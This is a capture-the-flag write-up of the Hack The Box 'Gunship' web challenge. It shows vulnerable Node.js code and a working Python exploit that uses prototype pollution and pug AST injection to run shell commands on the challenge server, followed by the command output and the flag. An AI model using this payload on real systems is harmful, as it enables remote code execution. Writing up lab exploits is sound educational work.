 ```yaml
---
layout: single
title: Gunship [Web] - Hack The Box
excerpt: "ECSC Prep"
date: 2021-12-21
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Web Challenge
tags:  
  - AST Injection
---
```


Upon starting the challenge, we also receive the source code, and can see that the gunship website runs on node.js <br>
seems to have the opportunity for taking an input and sending that form as a formatted json POST. 


### Discover the vulnerability
xxxx/routes/index.js
```js
router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

//vulnerable line => 'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
```
POST request gets sent to api/submit<br>
the application may be vulnerable to prototype pollution via an abstract syntax tree injection, commonly referred to as AST injection. <br>

### Google-FU
<hr>
"If prototype pollution vulnerability exists in the JS application,
Any AST can be inserted in the function by making it insert during the Parser or Compiler process.

Here, you can insert AST without proper filtering of input (which has not been properly filtered) that has not been verified by lexer or parser.
Then, we can give unexpected input to the compiler." <br>

Refer => [AST Injection](https://blog.p6.is/AST-Injection/#Exploit)
<hr>

### Exploit 

```python
#!/usr/bin/python

import requests

ENDPOINT = 'http://159.65.24.142:32670/api/submit'
OUTPUT = 'http://159.65.24.142:32670/static/out'

request = requests.post(ENDPOINT, json = {
   "artist.name":"Gingell",
       "__proto__.block": {
           "type":"Text",
           "line":"process.mainModule.require('child_process').execSync('ls > /app/static/out')"

       }

})
 
print (request.text)
print (requests.get(OUTPUT).text)
```

```
┌──(dhmosfunk㉿vmbox)-[~/…/htb/web/gunship/web_gunship]
└─$ python3 exploit.py 
{"response":"<span>Hello guestndefine, thank you for letting us know!</span>"}
flagifeO9
index.js
node_modules
package.json
routes
static
views
yarn.lock
```

```
──(dhmosfunk㉿vmbox)-[~/…/htb/web/gunship/web_gunship]
└─$ python3 exploit.py 
{"response":"<span>Hello guestndefine, thank you for letting us know!</span>"}
HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```

<b>Flag => HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}</b>

